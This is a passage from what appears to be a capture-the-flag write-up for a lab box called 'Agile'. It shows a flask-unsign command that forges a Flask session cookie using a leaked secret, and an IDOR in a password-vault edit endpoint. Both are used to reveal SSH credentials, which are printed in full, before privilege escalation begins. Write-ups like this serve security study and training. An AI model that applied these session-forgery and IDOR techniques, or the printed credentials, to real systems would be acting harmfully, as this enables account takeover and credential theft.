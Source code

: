 And we can sign new session token with the secret

```bash
❯ flask-unsign -s -c "{'_flashes': [('message', 'Please log in to access this page.')], '_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '1'}" --secret MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD

.eJwljsFqwzAQRH9F7DkUSSvvav0VvZcQ1tIqNrhNsZxTyL9X0NMwvGF4L7i1XftqHeavF7hzBHxb73o3uMDnbtrN7Y-7237c-XBayoDuXLfufsfmA67v62WcHNZXmM_jaaNtFWZgREP0ylbEKpmmmBDFB2mMlLilFiMGqSoyaONMOUSORSPpotWYCqsoikplzySpUsuNfJTiU8rRQuZlqpITYdaJsHGYfKS6SBEa-rdnt-PfJsD7D50JRQY.ZARf_g.NrJ-Ach0jpX7kfciZMW9pnmJRlU
```

While changing the "`_user_id`" to `8` we can the password for site `agile` - `corum:5db7caa1d13cc37c9fc2` 

And we can reuse them to ssh in the box.

### IDOR

**Unintended(?)**

Back to vault dashboard, when we add password and after adding it. if we click on edit button, a request send to the server `/vault/edit_row/<ID>`.

And the application is not properly check the session and we can leak any user's password using IDOR.

Which leaked the ssh creds - `corum:5db7caa1d13cc37c9fc2` from ID - 8

![](screenshots/vault-idor.png)

# Privesc

Got ssh as user "corum" and there are few more users in the box.
